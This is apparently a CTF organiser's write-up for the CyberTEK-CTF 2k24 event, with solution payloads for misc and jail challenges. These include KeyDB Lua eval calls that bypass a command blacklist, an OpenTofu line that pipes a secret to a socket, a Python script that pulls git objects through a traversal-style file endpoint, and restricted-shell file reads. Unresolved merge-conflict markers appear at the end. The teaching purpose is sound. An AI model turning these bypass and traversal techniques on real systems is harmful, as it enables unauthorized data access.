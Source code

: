 ```yaml
---
title: "CyberTEK-CTF 2k24"
date: 2024-05-05
draft: false
description: "a description"
tags: ["ctf", "misc"]
---
```


### Intro;
Last weekend, we had the privilege of organizing a local CTF competition at TEKUP University. The competition featured +30 custom-authored challenges spanning diverse categories. 
The event saw an amazing turnout with 50+ teams and 140+ players joining in. The feedback was incredibly positive, with many participants enjoying the challenges and the overall experience.


### About;
  - Event place: TEKUP University. 
  - Event duration: `14hrs`.
  - Flag format: Securinets{.*}.

### Challenges;
The CTF showcased a wide variety of challenges across multiple categories, and I had the privilege to author 6 challenges for the Misc category although most of them are jail-oriented tasks. Below is a detailed breakdown of the challenges and their difficulty levels:

|   Challenge     | Points | Solves |  Author |
|-----------------|--------|--------|---------|
|   [Siclodb]()       |  500   |   1    | chxmxii |
|   [Openheimer]()    |  440   |   6    | chxmxii |
|   [bolbok]()        |  470   |   4    | chxmxii |
|   [ekko]()          |  494   |   7    | chxmxii |
|   [heimerdigger]()  |  146   |   18   | xhlayel, chxmxii |

#### Siclodb;
This challenge was a bit tricky. I blacklisted several KeyDB functions to prevent players from directly retrieving the value of the flag key. The twist was that many participants were unaware they could use eval() in the KeyDB console or leverage redis.call() as an alternative to KeyDB.call() (since keydb is a fork of redis) to bypass the restrictions. However the final payload should look like that;
```shell
$ eval "local a='du'; a=a..'mp';local b='fl';b=b..'ag'; local k=redis.call(a, b); return k;" 0
$ eval "local a='ge'; a=a..'t';local b='fl';b=b..'ag'; return cjson.encode(redis.call(a, b))" 0
```
---
#### Openheimer;
In case you're unfamiliar, OpenTofu is a community-driven fork of the popular Infrastructure-as-Code tool Terraform, created after some licensing changes caused controversy. To introduce OpenTofu to the community, I designed this challenge, which allows players to connect to an OpenTofu console.

The objective is for players to figure out how to list the OpenTofu secrets. There are several ways to solve this, and one possible solution is shown below:

```shell
nonsensitive(urlencode(var.SECRET)) | socat - TCP:localhost:13337
```
For more; 
{{< alert "link" >}}
https://opentofu.org/docs/language/functions/nonsensitive/
{{< /alert >}}

---
#### Ekko;
The challenge present two API endpoints, one for listing directories and another for reading file contents. This inspired the challenge's description, ls && cat made easy. Without diving too deep into the specifics, you can find the solution for this challenge below:
```python
from os import listdir, path
import requests, re, zlib\

url = "https://ekko.securinets-tekup.tech/"
commit_list = []
request = requests.get(url + "ls?q=...git/objects")
objects = re.findall("\w+", request.text)

if request.status_code == 200:
    for obj in objects:
        get_commit = requests.get(url + "ls?q=...git/objects/" + obj + "/")
        commits = re.findall("\w+", get_commit.text)
        for commit in commits:
            get_blob = requests.get(url + "cat?q=...git/objects/" + obj + "/" + commit)
            with open(commit + ".zlib", "wb") as f:
                f.write(get_blob.content)

for blob in listdir("."):
    with open(blob, "rb") as f:
        blob_content = f.read()
    f.close()
    try:
        decompressed_blob = zlib.decompress(blob_content)
    except zlib.error as e:
        print(f"Zlib error: {e}")
    flag = re.search("Securinets.*", str(decompressed_blob))
    if flag:
        print(flag.group())
```

---
#### Bolbok
In this challenge, players were placed in a restricted shell environment, `rbash`, with limited command options. The flag was hidden in a directory with an ambiguous name, making it tricky to locate. However, for those familiar with `ls` and `grep`, the solution was straightforward:

```shell
ls -Ra / | grep flag -B3
<path>:
.
..
.flag
```
Players had to figure out how to read its contents within the restricted shell.
```shell
echo $(< <path>/.flag)
Securinets{FLAG}
OR
while read line; do echo $line; done < <path>/.flag
Securinets{FLAG}
``` 

---
#### Heimerdigger;
dive into the docker layers and collect the deleted files.
one of the files gave us a hint about fixing the corrupted jpg file `f(byte) = (15 - byte) modulos 256`

```python
def transform_file(input_image_path, output_image_path):
    with open(input_image_path, 'rb') as input_file:
        data = input_file.read()
    modified_data = bytearray((15 - byte) % 256 for byte in data)
    with open(output_image_path, 'wb') as output_file:
        output_file.write(modified_data)
        print("Modified image saved to:", output_image_path)

# Usage
input_image_path = "./01946.jpg"
output_image_path = "./heimer.jpg"
transform_file(input_image_path, output_image_path)
``` 
---
### Das Ende;

A huge shoutout to everyone who helped make this event a success-Securitnets TEKUP, the participants, and the support from TEKUP University.
<<<<<<< HEAD:content/writeups/CyberTEK-CTF-2k24/index.md
For more insights, detailed write-ups, or to access the challenge files, check out my GitHub repository: {{< github repo="chxmxii/CTF" >}}
=======
For more insights, detailed write-ups, or to access the challenge files, check out my GitHub repository: (hidden)
>>>>>>> 8b0afad9666b7d4e893a255ef7ced8310d68a1a2:content/writeups/1733675663434-CyberTEK-CTF-20k24/index.md
